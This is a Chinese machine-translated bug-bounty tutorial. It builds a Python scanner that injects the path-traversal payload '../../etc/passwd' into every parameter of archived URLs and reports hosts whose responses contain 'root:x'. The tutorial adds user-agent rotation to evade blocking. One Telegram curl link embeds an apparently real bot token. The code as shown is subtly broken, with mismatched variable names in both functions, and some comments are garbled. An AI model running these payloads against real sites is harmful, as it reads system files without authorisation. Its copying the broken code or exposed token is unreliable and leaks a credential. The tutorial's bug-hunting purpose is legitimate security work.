

# 如何编写一个简单的脚本来自动查找 bug

> 原文：<https://infosecwriteups.com/how-to-write-simple-script-to-automate-finding-bugs-438c121b61cf?source=collection_archive---------0----------------------->

今天，我将讨论如何编写一个简单的 Python 脚本来自动查找 bug。我举个例子:>**LFI 调查结果**。


## 内容

1.  **要求**
2.  **URL 先决条件**
3.  **编码**
4.  **奖金选项**
5.  **谢谢**

## 1.要求

1.  **Wayback** 带参数的 URL，可以查看我简单的 [**方法论**](https://eslam3kl.medium.com/simple-recon-methodology-920f5c5936d4) 知道如何抓取。【例如。[https://example.com？file=ay_value.txt]](https://example.com?file=ay_value.txt])
2.  **Python3** 和 **pip3**

3.有用的工具，比如[**GF**/**GF**-**Patterns**/**Uro**，你可以从 GitHub 获得

让我们开始吧…

> **警告**
> 
> 首先，我们需要了解，我们将尝试通过收集的 GET URLs 利用一些 GET 参数，因此我们不会覆盖所有的应用程序功能，我们仍然有一堆 POST 请求，这些请求也可能是易受攻击的，所以不要 100%依赖于我们将做的事情，**请**！

## 2.URL 先决条件。

在开始之前，我们需要知道为什么需要使用 GF/GF-Patterns/Uro？

如果我们有一个包含 1M 带参数链接的文件，那么有可能有 60%或更多的相似链接，这将浪费你的时间

```
[https://example.com**?parameter1**=lolololo**&parameter2**=lablablab](https://example.com?parameter1=lolololo&parameter2=lablablab)
https://example.com**?parameter1**=hhhhhhhhh**&parameter2**=youyouyou
```

虽然参数是相同的，所以我们只需要其中一个，这是`uro`工具的工作，你也可以使用`dpfilter`来做同样的工作。

```
**Usage**
cat waybackurls.txt | uro > uro_output
cat waybackurls.txt | dpfilter > dpfilter_output
```

过滤完 URL 后，我们需要根据流行的参数名称再次过滤它们，例如

```
[https://example.com**?file**=profile_info.txt](https://example.com?file=profile_info.txt)
https://example.com**?search**=I%20am%20not%20LFI%20parameter%20hommie
```

第一个 URL 似乎容易受到 LFI 的攻击，但第二个 URL 则不然，根据参数名我们可以预计可能有哪些易受攻击的链接。

```
**Usage**
$ cat uro_output | gf lfi > lfi_gf.txt
```

## 3.编码

是时候开始编码了


首先，我们需要这些库:

```
**import exurl** #replacing parameter values
**import sys** #system library 
**import requests** #send web requests 
**from termcolor import colored** #coloring
**from tqdm import tqdm** #create progress bar
```

让我们更多地了解`[exurl](https://pypi.org/project/exurl/?fbclid=IwAR31AiqD5Igw1xKbrcbT3024fRCcdY_n1g7FwF8JoQmKfgbz6_VTQTLGnsU)`..

用来把你的有效载荷放在 URL 的每个参数上，例如如果我们有一个像这样的 URL，https://example.com？file=aykalam & doc=zzzzzz，所以我们需要输出每个参数都为`../../../../etc/passwd`的有效载荷来创建 2 个 URL。那么`exurl`库和`qsreplace`工具有什么区别呢。

*以下是不同之处*

```
**exurl**
https://example.com?**file**=../../../../etc/passwd&**doc**=zzzzzz
https://example.com?**file**=aykalam&**doc**=../../../../etc/passwd**qsreplace** https://example.com?**file**=../../../../etc/passwd[&**doc**=](https://example.com?file=aykalam&doc=zzzzzz)../../../../etc/passwd
```

现在，你可以知道我的意思是用不同的 URL 替换每个参数，而不是在同一个 URL 替换它们。

第二步是使用`sys`库从用户那里获取 URL 文件，记住文件必须只包含带参数的链接，因为有我们的作用域。

```
file = sys.argv[1] **# Usage: python3 lfi_check.py <file>**
```

下一步是创建一个函数，将每个 URL 划分为独立的 URL，并在每个参数处替换有效载荷，就像我们上面使用`exurl`演示的那样，明白了吗？

```
**# put your payload at a variable** 
payload = "../../etc/passwd"**# create a function, you can check the library usage from its docs**
def split_file(file, payload):
    with open(file, 'r') as links:
        splitting_urls = exurl.split_urls(links, payload)
        return splitted_urls**# Calling the function** splitted_urls = split_file(file, payload)
```

如您所见，它将获取文件，替换每个参数的值，并在名为`splitted_urls`的数组中返回输出

下一步是创建另一个函数，它将接受`splitted_urls`并向每个有效负载的 URL 发送一个请求，并检查有效负载是否工作。

```
**# create a variable contain user-agent to avoid simulate normal request**
user_agent = "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko"**# create a proxy [It's not required]**
proxies = {
  "http": "[http://127.0.0.1:8080](http://127.0.0.1:8080)"
}**#start the function which will send a GET request to each URL**def send_request(URL):
    line = line.rstrip()
    headers = {"User-Agent": user_agent}
    try:
        r = requests.get(line, headers=headers, proxies=proxies, verify=False, timeout=15) **# Sending GET request** 
        content = r.content **# GET Page source code** 
        if b"root:x" in content:
            print(colored("\n\n[+] Vulnerable :> ", 'red') + line + "\n")
    except KeyboardInterrupt:
        exit()
    except Exception as error:
        # If you have an error, it will print it 
        print(line, error)
        pass
```

因此，到目前为止，我们有 2 个函数，一个用于 URL 拆分，另一个用于向每个 URL 发送请求。

> 如果你想知道为什么第二个函数不接受一个 URL 列表，而是通过一个循环发送一个请求，而是一个 URL 接一个 URL，实际上，这取决于进度条函数的用法。

最后一步是创建一个函数来检查进度并设置一个进度条。

```
**# Calculate the final array length** 
array_length = len(splitted_urls)**# Progress function**
for i in tqdm(range(array_length), desc="Loading...", ascii=False, ncols=75):line = splitted_urls[i] **# Take the first URL**
    send_request(line) **# Call the function** 
print(colored("\nEslam! We have finished\n", "green", attrs=['bold'])) **# Print this message after you have done.**
```

让我们总结一下我们已经做了什么，首先，我们获取一个带有参数的 URL 文件，并将它们传递给`exurl`一个库，该库用有效载荷`../../../../etc/passwd`替换每个参数的值

之后，它会调用一个函数向每个付费 URL 发送一个请求，并检查我们是否在响应中有一个自定义单词，如果有，它会打印易受攻击的 URL，如果没有，它会传递给另一个。

为了了解我们的进展，我们创建了一个进度条，以了解已完成的 URL 的百分比以及完成该过程的预期时间。

**最终代码将为**

在尝试使用包含 21 个链接的文件和创建 28 个链接后，我们发现了一个易受攻击的链接



## 红利期权

1.  您可以在一个数组中添加多个 LFI 有效负载，并使用 for 循环遍历它们，在每个 URL 尝试每个有效负载
2.  您可以在一个数组中添加多个用户代理，并在每次请求时根据您的用户代理随机选择一个以避免阻塞，您可以使用`random`库来执行此步骤

```
import random 
user_agent_list = ["Multiple User Agents"]
user_agent_random =random.choice(user_agent_list)
headers = {"User-Agent": str(user_agent_random)}
```

3.您可以使用 Telegram bot 令牌来通知您它是否发现了一个易受攻击的链接，或者如果它完成了，使用`subprocess`库来执行`curl`命令。

```
subprocess.call('curl -s "[https://api.telegram.org/<token>/sendMessage?chat_id=<chat-id>&text=](https://api.telegram.org/bot1875655001:AAHQub53HxAw4ckmPQMXBTSIaVtCuvyTHwQ/sendMessage?chat_id=971620208&text=LFI)"Message"', shell=True)
```

## 由于

[**阿卜杜勒拉赫曼·卡迈勒**](https://pypi.org/user/Abdulrahman-Kamel/) 为了他伟大的图书馆`exurl`和他的努力。

## 保持联系

[LinkedIn](https://www.linkedin.com/in/eslam-akl-6b998614a/)|[GitHub](https://github.com/eslam3kl)|[Twitter](https://twitter.com/eslam3kll)